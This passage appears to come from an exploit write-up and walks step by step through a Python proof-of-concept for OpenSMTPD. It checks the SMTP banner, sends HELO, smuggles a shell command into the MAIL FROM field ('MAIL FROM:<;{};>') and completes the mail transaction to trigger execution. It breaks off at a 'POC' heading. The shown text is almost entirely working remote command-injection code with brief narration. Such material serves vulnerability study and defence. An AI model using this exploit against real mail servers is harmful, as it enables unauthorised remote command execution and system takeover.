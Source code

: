 

    res = s.recv(1024)
    if 'OpenSMTPD' not in str(res):
        print('[!] No OpenSMTPD detected')
        print('[!] Received {}'.format(str(res)))
        print('[!] Exiting...')
        sys.exit(1)



It sends a `HELO` response:



    print('[*] OpenSMTPD detected')
    s.send(b'HELO x\r\n')
    res = s.recv(1024)
    if '250' not in str(res):
        print('[!] Error connecting, expected 250')
        print('[!] Received: {}'.format(str(res)))
        print('[!] Exiting...')
        sys.exit(1)



It sends the payload:



    print('[*] Connected, sending payload')
    s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
    res = s.recv(1024)
    if '250' not in str(res):
        print('[!] Error sending payload, expected 250')
        print('[!] Received: {}'.format(str(res)))
        print('[!] Exiting...')
        sys.exit(1)



Then it sends the rest of the fields and exits:



    print('[*] Payload sent')
    s.send(b'RCPT TO:<root>\r\n')
    s.recv(1024)
    s.send(b'DATA\r\n')
    s.recv(1024)
    s.send(b'\r\nxxx\r\n.\r\n')
    s.recv(1024)
    s.send(b'QUIT\r\n')
    s.recv(1024)
    print('[*] Done')



### POC

#### Manual
